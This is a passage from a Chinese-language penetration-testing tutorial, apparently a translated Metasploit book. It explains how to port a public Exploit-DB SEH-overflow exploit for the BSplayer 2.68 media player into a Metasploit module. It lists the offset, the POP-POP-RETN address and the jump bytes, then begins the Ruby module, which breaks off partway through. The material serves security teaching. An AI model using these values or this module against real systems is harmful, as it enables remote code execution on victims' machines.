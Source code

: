 在下一节中，我们将了解如何在 Metasploit 中导入基于浏览器或基于 TCP 服务器的漏洞利用。

在应用程序测试或渗透测试期间，我们可能会遇到无法解析请求/响应中的数据并最终崩溃的软件。让我们看一个在解析数据时存在漏洞的应用程序示例：

![](assets/7db3f606-a65b-424e-b98c-1170c42baf3e.png)

本例中使用的应用程序是 BSplayer 2.68。我们可以看到，我们在端口`81`上监听了一个 Python 漏洞。该漏洞存在于用户试图播放 URL 中的视频时解析远程服务器的响应中。让我们看看在端口`81`上尝试从侦听器流式传输内容时会发生什么：

![](assets/cd716a16-ebc1-470d-a30c-e13b7ecf3684.png)

我们可以看到计算器应用程序弹出，这表示该漏洞正在成功利用。

从[下载 BSplayer 2.68 的 Python 漏洞 https://www.exploit-db.com/exploits/36477/](https://www.exploit-db.com/exploits/36477/) 。

让我们看看漏洞代码并从中收集基本信息以构建 Metasploit 模块：

![](assets/b6674a0f-3c2a-4a48-9719-879662dc9dfd.png)

这种利用方式很简单。然而，该漏洞的作者使用了向后跳转技术来查找有效负载交付的外壳代码。该技术用于对抗空间限制。这里需要注意的另一件事是，由于漏洞的性质，作者已两次发送恶意缓冲区以执行有效负载。让我们在下一节中尝试构建一个表，其中包含将此漏洞转换为 Metasploit 兼容模块所需的所有数据。

# 收集精华

让我们看下表，其中突出显示了所有必要的值及其用法：

| **序列号** | **变量** | **值** |
| 1. | 偏移值 | `2048` |
| 2. | 内存中包含 POP-POP-RETN 系列指令/P-P-R 地址的已知位置 | `0x0000583b` |
| 3. | 向后跳转/跳远以查找外壳代码 | `\xe9\x85\xe9\xff\xff` |
| 4. | 短跳转/指向下一个 SEH 帧的指针 | `\xeb\xf9\x90\x90` |

我们现在已经具备了为 BSplayer 2.68 应用程序构建 Metasploit 模块的所有基本要素。我们可以看到，作者将外壳代码精确地放在了`2048`NOPs 之后。但是，这并不意味着实际偏移值为`2048`。该漏洞的作者已将其置于 SEH 覆盖之前，因为可能没有空间用于外壳代码。但是，我们将以该值作为偏移量，因为我们将遵循原始利用的确切过程。此外，`\xcc`是一个断点操作码，但在这次攻击中，它被用作填充。由于存在空间限制，`jmplong`变量将向后跳转存储到外壳代码。`nseh`变量存储下一帧的地址，这只是一个短跳转，正如我们在上一章中讨论的那样。`seh`变量存储`P/P/R`指令序列的地址。

这里需要注意的一点是，在这个场景中，我们需要目标连接到我们的攻击服务器，而不是试图到达目标机器。因此，我们的攻击服务器应始终侦听传入的连接，并根据请求发送恶意内容。

# 生成 Metasploit 模块

让我们从 Metasploit 中的漏洞编码部分开始：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::TcpServer 

  def initialize(info={}) 
    super(update_info(info, 
      'Name'           => "BsPlayer 2.68 SEH Overflow Exploit", 
      'Description'    => %q{ 
        Here's an example of Server Based Exploit 
      }, 
      'Author'         => [ 'Nipun Jaswal' ], 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Generic', {'Ret' => 0x0000583b, 'Offset' => 2048} ], 
        ], 
      'Payload'  =>  
```